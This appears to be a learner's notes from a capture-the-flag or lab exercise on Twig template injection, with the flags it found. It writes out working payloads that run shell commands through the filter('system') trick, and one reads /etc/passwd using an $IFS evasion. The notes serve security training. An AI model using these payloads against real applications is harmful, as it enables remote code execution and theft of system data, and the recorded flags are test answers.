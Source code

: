 
2.
`OS{CrvenaJabuka}`
![[Pasted image 20241022153211.png]]
Google `hacktricks twig rce` and brings up this web page
![[Pasted image 20241022153229.png]]
try this filter and get flag
```twig
{{['id']|filter('system')}}
```
![[Pasted image 20241022153326.png]]

3.
`OS{DinoMerlin}`
![[Pasted image 20241022160238.png]]
The key word is `execute external programs` upon googling PHP documentation to `execute external programs` , this comes up witht the `passthru` function
![[Pasted image 20241022160648.png]]
Upon entering this `twig` script with the `passthru` function we get the flag
```twig
{{ ['passthru("cat $IFS/etc/passwd")']|filter('system') }}
```
![[Pasted image 20241022160808.png]]